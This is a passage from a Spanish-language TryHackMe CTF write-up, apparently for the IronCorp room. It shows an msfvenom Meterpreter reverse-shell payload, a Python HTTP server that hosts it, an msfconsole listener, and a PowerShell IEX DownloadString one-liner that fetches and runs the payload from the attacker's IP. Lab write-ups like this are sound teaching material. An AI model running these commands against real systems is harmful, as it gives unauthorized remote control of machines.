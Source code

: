 ```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.8.17.92 LPORT=9001 -f psh -o shell.ps1
```

2. Servimos el payload

```bash
python3 -m http.server 80
```
3. En msfconsole necesitamos crear una listener

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.8.17.92
set LPORT 9001
exploit 
```

4. Desde la shell reversa que ya tenemos lo vamos a descargar y ejecutar en un solo comando.

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.8.17.92/shell.ps1')
```

![alt text](/assets/img/writeups/tryhackme/ironcorp-thm/image-22.png)

![alt text](/assets/img/writeups/tryhackme/ironcorp-thm/image-23.png)

Tratando de impersonar al usuario SuperAdmin.

![alt text](/assets/img/writeups/tryhackme/ironcorp-thm/image-24.png)

